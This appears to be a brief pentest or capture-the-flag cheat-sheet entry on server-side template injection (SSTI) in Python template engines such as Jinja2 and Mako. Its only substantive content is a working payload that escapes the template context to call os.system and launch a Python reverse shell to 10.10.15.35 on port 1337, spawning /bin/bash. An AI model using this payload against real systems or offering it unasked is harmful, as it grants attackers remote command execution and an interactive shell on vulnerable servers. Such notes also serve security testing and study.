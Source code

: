 # SSTI

---

SSTI for Python Environment (Jinja2, Mako template engine)

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.10.15.35\",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash\")'") }}
```



```

```
